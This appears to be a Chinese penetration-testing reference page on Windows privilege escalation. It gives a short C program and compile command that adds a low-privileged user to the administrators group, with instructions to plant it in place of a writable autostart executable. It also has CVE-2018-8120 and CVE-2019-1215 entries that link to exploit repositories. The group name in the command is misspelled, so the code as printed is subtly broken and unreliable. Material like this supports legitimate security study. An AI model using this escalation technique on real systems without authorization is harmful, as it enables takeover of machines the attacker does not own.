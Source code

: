 - [akabe1/windows_exploit_dowser](https://github.com/akabe1/windows_exploit_dowser) - 一个简单的工具，可以用来识别影响 Windows 操作系统的漏洞。

---

## Windows系统配置

**添加开机启动项**

useradd.c
```C
#include <stdlib.h>
int main ()
{
    int i;
    i=system ("net localgroup adminstrators lowpriv /add");
    return 0;
}
```
```
i586-mingw32msvc-gcc useradd.c -o useradd.exe
```
将 useradd.exe 传到目标机上,用 useradd.exe 去替换 everyone 完成控制且以系统权限开机自启的 exe,即可将用户 lowpriv 提升为管理员权限

查看一个程序的各个用户权限: `icacls xxx.exe`

---

## Windows系统漏洞

**CVE-2018-8120**
- 简介

    Microsoft Windows 中存在提权漏洞，该漏洞源于 Win32k 组件没有正确的处理内存中的对象。攻击者可利用该漏洞在内核模式下以提升的权限执行任意代码。

- 影响版本
    - Microsoft Windows 7 SP1
    - Windows Server 2008 SP2
    - Windows Server 2008 R2 SP1

- 文章
    - [关于CVE-2018-8120的最新Windows提权漏洞分析](https://www.freebuf.com/vuls/174183.html)

- POC | Payload | exp
    - [unamer/CVE-2018-8120: CVE-2018-8120 Windows LPE exploit](https://github.com/unamer/CVE-2018-8120)
    - [alpha1ab/CVE-2018-8120: CVE-2018-8120 Exploit for Win2003 Win2008 WinXP Win7](https://github.com/alpha1ab/CVE-2018-8120)

**CVE-2019-1215**
- 简介

    Microsoft Windows 和 Microsoft Windows Server 都是美国微软（Microsoft）公司的产品。Microsoft Windows 是一套个人设备使用的操作系统。Microsoft Windows Server 是一套服务器操作系统。

    Microsoft Windows 和 Microsoft Windows Server 中 ws2ifsl.sys(Winsock) 处理内存对象的方式存在提权漏洞。攻击者可借助特制的应用程序利用该漏洞以提升的权限执行代码。
